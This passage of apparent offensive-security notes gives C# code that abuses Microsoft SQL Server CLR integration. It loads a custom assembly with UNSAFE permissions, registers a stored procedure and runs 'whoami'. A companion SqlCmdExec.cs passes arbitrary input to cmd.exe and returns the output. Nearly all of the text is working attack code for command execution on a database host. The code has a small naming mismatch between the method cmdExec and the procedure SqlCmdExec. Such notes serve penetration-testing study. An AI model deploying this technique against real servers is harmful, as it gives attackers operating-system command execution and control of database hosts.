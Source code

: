 ```csharp
            sqlQuery(@"CREATE ASSEMBLY myAssembly1 FROM 'C:\Windows\Tasks\SqlCmdExec.dll' WITH PERMISSION_SET = UNSAFE;", con);
            //sqlQuery(@"CREATE ASSEMBLY my_assembly FROM 0x31337... WITH PERMISSION_SET = UNSAFE;", con);
            Console.WriteLine("[+] Created new assembly");
            // Create new procedure
            sqlQuery(@"CREATE PROCEDURE [dbo].[SqlCmdExec] @execCommand NVARCHAR (4000) AS EXTERNAL NAME [myAssembly1].[StoredProcedures].[SqlCmdExec];", con);
            Console.WriteLine("[+] Created new procedure");
            // Trigger custom class for RCE
            string result = sqlQuery("EXEC SqlCmdExec 'whoami';", con);
            Console.WriteLine($"[*] SqlCmdExec: {result}");

            con.Close();
        }
    }
}
```
{% endcode %}

Custom assembly code example (must be compiled to `SqlCmdExec.dll`):

{% code title="SqlCmdExec.cs" %}
```csharp
using Microsoft.SqlServer.Server;
using System.Data.SqlTypes;
using System.Diagnostics;

public class StoredProcedures
{
    [Microsoft.SqlServer.Server.SqlProcedure]
    public static void cmdExec(SqlString execCommand)
    {
        Process proc = new Process();
        proc.StartInfo.FileName = @"C:\Windows\System32\cmd.exe";
        proc.StartInfo.Arguments = string.Format($@" /c {execCommand}");
        proc.StartInfo.UseShellExecute = false;
        proc.StartInfo.RedirectStandardOutput = true;
        proc.Start();

        SqlDataRecord record = new SqlDataRecord(new SqlMetaData("output", System.Data.SqlDbType.NVarChar, 4000));
        SqlContext.Pipe.SendResultsStart(record);
        record.SetString(0, proc.StandardOutput.ReadToEnd().ToString());
        SqlContext.Pipe.SendResultsRow(record);
        SqlContext.Pipe.SendResultsEnd();
        proc.WaitForExit();
        proc.Close();
    }
}
```
{% endcode %}
